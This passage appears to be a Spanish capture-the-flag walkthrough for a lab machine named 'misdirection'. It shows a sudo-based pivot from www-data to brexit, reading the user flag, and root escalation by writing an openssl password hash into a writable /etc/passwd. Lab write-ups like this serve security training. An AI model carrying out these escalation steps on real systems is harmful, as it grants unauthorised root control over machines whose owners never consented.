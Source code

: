 
## User Pivoting

---

El usuario `www-data` tiene permiso para ejecutar `/bin/bash`{: .filepath} con el usuario `brexit`. 

```bash
www-data@misdirection:/home/brexit$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```

Nos conectamos con el usuario `brexit`{: .filepath} y listamos la user flag.

```bash
www-data@misdirection:/home/brexit$ sudo -u brexit /bin/bash
brexit@misdirection:~$ whoami
brexit
brexit@misdirection:~$ cat user.txt
404b9193154be7fbbc56d7534cb26339
```

## Escalación de privilegios

---

>Vamos a ver dos formas de escalar privilegios. Mediante edición del archivo `/etc/passwd`{: .filepath} y a través de un contenedor en `LXD`{: .filepath}.
{: .prompt-tip }

### Permisos en archivo /etc/passwd

El usuario brexit tiene permiso para editar el archivo `passwd`, con lo cual le podemos asignar a root una password.

Para agregar una contraseña al archivo passwd, lo haremos con `openssl passwd`.

```bash
❯ openssl passwd
Password:
Verifying - Password:
$1$JKOHqfu9$KQxnKf4GMa.EA.RdJdVzm0

bash-4.4$ nano /etc/passwd

bash-4.4$ cat /etc/passwd
root:$1$JKOHqfu9$KQxnKf4GMa.EA.RdJdVzm0:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```